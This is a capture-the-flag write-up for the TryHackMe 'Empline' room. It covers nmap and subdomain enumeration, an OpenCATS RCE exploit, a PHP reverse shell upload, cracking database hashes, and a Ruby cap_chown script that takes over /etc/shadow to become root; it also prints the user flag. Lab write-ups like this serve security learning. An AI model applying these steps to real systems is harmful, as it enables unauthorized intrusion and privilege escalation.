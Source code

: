 # Empline - tryhackme

## Enumeration

### Lets start with the initial scans with nmap 
```
# Nmap 7.92 scan initiated Mon Jul 18 01:07:28 2022 as: nmap -sC -sV -oN nmap 10.10.80.228
Nmap scan report for 10.10.80.228
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Empline
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 18 01:08:00 2022 -- 1 IP address (1 host up) scanned in 32.53 seconds

```
### We got two ports open, so we tried accessing the webserver and there is a simple static page with no paramters exploitable
```
![004.png]()
```
### Next we tried bruteforcing directories using gobuster
```
/index.html           (Status: 200) [Size: 14058]
/assets               (Status: 301) [Size: 313] [--> http://10.10.80.228/assets/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.80.228/javascript/]

```
### Didn't find anything usefull, next we tried bruteforcing subdomains for that we have to add the IP to the /etc/hosts file as "empline.thm"
```
Found: job.empline.thm (Status: 200) [Size: 3671]
Found: gc._msdcs.empline.thm (Status: 400) [Size: 422]
Found: www.job.empline.thm (Status: 200) [Size: 3671]
Found: _domainkey.empline.thm (Status: 400) [Size: 422]
```

### Here we find some interesting subdomains so we added these to out /etc/hosts file, then after navigating to the job.empline.thm, we got this login page
![005.png]()

## Exploitation

### Here we get to know that opncats is running, so lets find it is exploitable or not, using searchsploit we get to know that it is vulnerable to RCE
```
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenCATS 0.9.4 - Remote Code Execution (RCE)                                                                     | php/webapps/50585.sh
OpenCats 0.9.4-2 - 'docx ' XML External Entity Injection (XXE)                                                   | php/webapps/50316.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
### So here we mirrored the exploit in our attacker machine and it gives us a unstable shell
![006.png]()

### So here we see the present working directory and we tried uploading our favourite php-reverse-shell in the current working directory, and we sucessfully managed to upload the reverse-shell on the server
![007.png]()
![008.png]()

### Now we have to call the shell by visiting the url
```
http://job.empline.thm/upload/careerportaladd/revshell.php
```
### Here we got the shell
![009.png]()

### After visiting many directories on the server we find "config.php" in /var/www/opencats directory and in the file we got the credentials of mysql database
![001.png]()

### After using these creds we are sucessfully managed to enter in the database
![011.png]()

### Here we got the hashes of 3 users admin,george,james 
![012.png]()

### We saves these hashes in a file names hash, next we tried crack these hashes using john 
![002.png]()
## User Flag
### Here we find the password for the user george, and we use these creds to log in to the webserver using ssh and we sucessfully logged in to the server
![013.png]()

### Here we find the user flag
```
george@empline:~$ cat user.txt
91cb89c70aa2e5ce0e0116dab099078e
```
## Priv esc

### We went through many directories but we didn't find anything intersting, then we tried to check the /etc/crontab file, there also we didn't find anthing intersting, then we upload linpeas to the server and the output gives something interesting
![014.png]()

### So we tried googling it and we find that we can change the ownership of the file using cap_chown+ep using ruby 
```
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_chown
```

### So to own the file we have to make a ruby script to change the permissions of the file, in our case we are changing the ownership of /etc/shadow file, so that we can change the root passwd and then we become root
### For that we have to built a ruby script 
```
https://apidock.com/ruby/FileUtils/chown
```

### We take the help of this article to make our ruby script, the script looks like this 
```
require 'fileutils'
FileUtils.chown 'george', 'george', '/etc/shadow'
```

### And now lets check the ownership of the /etc/shadow file
![015.png]()

### Here we can see we own the file now, next we have to change the root password, in our case we copied the hash of the user george and paste that in the root hash, so that the password of george and root will become same
### Now we tried the same password we used for user george 
![016.png]()

## BOOOOOOOOOOMMMMMMMMM!!!!!!!!!!!!!!! We are root and here we got the root flag
## <3 by sigwotts
